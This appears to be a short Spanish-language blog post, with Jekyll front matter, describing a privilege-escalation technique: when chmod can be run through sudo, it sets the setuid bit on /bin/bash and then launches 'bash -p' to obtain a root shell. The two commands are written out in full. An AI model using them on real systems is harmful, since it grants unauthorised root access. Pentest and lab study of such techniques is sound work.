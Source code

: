 ```yaml
---
layout: single
title:  Chmod - Privilege Escalation 
excerpt: "Guia de como escalar privilegios cuando se puede ejecutar chmod como Sudo"
date: 2022-10-28
classes: wide
header:
  teaser: /assets/images/chmodPrivilege/logo.png
  teaser_home_page: true
categories:
  - Tecnicas
tags:
  - Escalada de Privilegios
  - Sudo
---
```


Si vemos que el usuario que estamos usando, puede ejecutar chmod como sudo, lo que habría que hacer sería lo siguiente:

``sudo -u root chmod 4577 /bin/bash``

![](/assets/images/chmodPrivilege/ch1.jpg)

luego solo habría que hacer un `bash -p`

![](/assets/images/chmodPrivilege/ch2.jpg)

